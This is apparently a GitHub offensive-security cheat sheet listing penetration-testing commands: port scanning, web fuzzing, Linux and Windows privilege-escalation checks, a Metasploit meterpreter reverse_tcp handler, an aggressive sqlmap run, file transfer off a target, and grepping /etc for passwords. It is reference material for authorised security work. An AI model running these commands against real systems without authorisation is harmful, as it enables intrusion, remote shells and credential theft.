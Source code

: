 # Offensive Security Cheatsheet 🚀

*"Knowledge is power. Share it wisely." - Unknown*

## 🔍 Scanning & Enumeration

### Nmap

```# Basic TCP scan
nmap -sV -sC -oA scan_results <TARGET_IP>```


Masscan

```# Blazing fast scan
masscan -p1-65535 <TARGET_IP> --rate=1000 -e tun0```


🕵️‍♂️ Web Enumeration

FFUF (Web Fuzzing)

```# Directory brute-forcing
ffuf -w /path/to/wordlist -u http://<TARGET>/FUZZ -mc 200 -fs 4242```

```# Vhost discovery
ffuf -w subdomains.txt -u http://<TARGET> -H "Host: FUZZ.<TARGET>" -fs 0```

Gobuster

```gobuster dir -u http://<TARGET> -w /usr/share/wordlists/dirb/common.txt -x php,html```


🔑 Privilege Escalation
Linux PrivEsc

bash
```# SUID finder
find / -perm -4000 -type f 2>/dev/null```

```# Kernel exploits
uname -a; searchsploit <kernel_version>```

Windows PrivEsc

powershell
```# Service permissions
accesschk.exe /accepteula -uwcqv *```

```# AlwaysInstallElevated check
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated```


🛠️ Exploitation


Metasploit

```# Basic workflow
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <YOUR_IP>
exploit```

SQL Injection

```sqlmap -u "http://site.com/page?id=1" --risk=3 --level=5 --batch```


📦 Post-Exploitation

File Transfers

```# Python HTTP server
python3 -m http.server 8000```

```# SCP download
scp user@target:/path/to/file .```

Credential Hunting

```# Find passwords in files
grep -riE 'password|passwd|cred' /etc/ 2>/dev/null```


📚 Resources

GTFOBins

PayloadsAllTheThings

HackTricks

